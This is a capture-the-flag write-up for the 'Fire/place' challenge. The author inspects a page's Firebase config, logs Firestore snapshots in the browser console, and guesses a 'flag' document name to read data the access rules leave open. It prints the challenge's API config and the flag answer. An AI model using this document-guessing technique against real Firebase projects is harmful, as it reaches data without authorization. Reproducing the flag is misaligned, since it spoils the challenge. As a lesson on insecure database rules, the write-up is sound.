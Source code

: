 # Fire/place

![](chall.png)

I immediately looked inside the HTML file. There was some code that was used to draw and plot points on a grid, but that didn't interest me too much. What did interest me is this code:

```javascript
db.collection("board").doc("data")
.onSnapshot(function(doc) {
    drawCanvas(doc.data().dat);
    PIXELARRAY=doc.data().dat;
});
```

It looks like something you would see for Mongo DB. At the top of the file, you can see that it's for something called firebase.

```html
<script>
var firebaseConfig = {
    apiKey: "AIzaSyBo8S7EFbhlgg1YNfGu1nnBX4OBDa4oSrg",
    authDomain: "fireplace-cd2cb.firebaseapp.com",
    projectId: "fireplace-cd2cb",
    storageBucket: "fireplace-cd2cb.appspot.com",
    messagingSenderId: "915286843748",
    appId: "1:915286843748:web:45a3f3438d627e41fb5a71",
    measurementId: "G-3Q2GG4PPNL"
};
firebase.initializeApp(firebaseConfig);
firebase.analytics();
const db = firebase.firestore()
</script>
```

I looked it up, and it's a mobile and web development platform made by Google.

I wanted to see what was coming from the database, so I logged it to the console:

```javascript
db.collection("board").doc("data")
.onSnapshot(function(doc) {
    console.log("Got data:", doc.data())
    drawCanvas(doc.data().dat);
    PIXELARRAY=doc.data().dat;
});
```

![](data.png)

When you look at the data, it's a bunch of pixel data in the form of `rgb(0, 0, 0)`

I wondered if you could see all the docs, but the permission is denied:
```javascript
db.collection("board")
.onSnapshot(function(doc) {
    console.log("Got data:", doc.data())
    drawCanvas(doc.data().dat);
    PIXELARRAY=doc.data().dat;
});
```

![](denied.png)

I wonder if there's a doc called `flag`? Let's test.

```javascript
document.addEventListener("click", findScreenCoords);
db.collection("board").doc("flag")
.onSnapshot(function(doc) {
    console.log("Got data:", doc.data())
    drawCanvas(doc.data().dat);
    PIXELARRAY=doc.data().dat;
});
```

![](flag.png)

Bingo! We have the flag!

Just for fun, I also put a troll in there, too!

![](troll.png)


Flag: `rtcp{d0n't_g1ve_us3rs_db_a((3ss}`
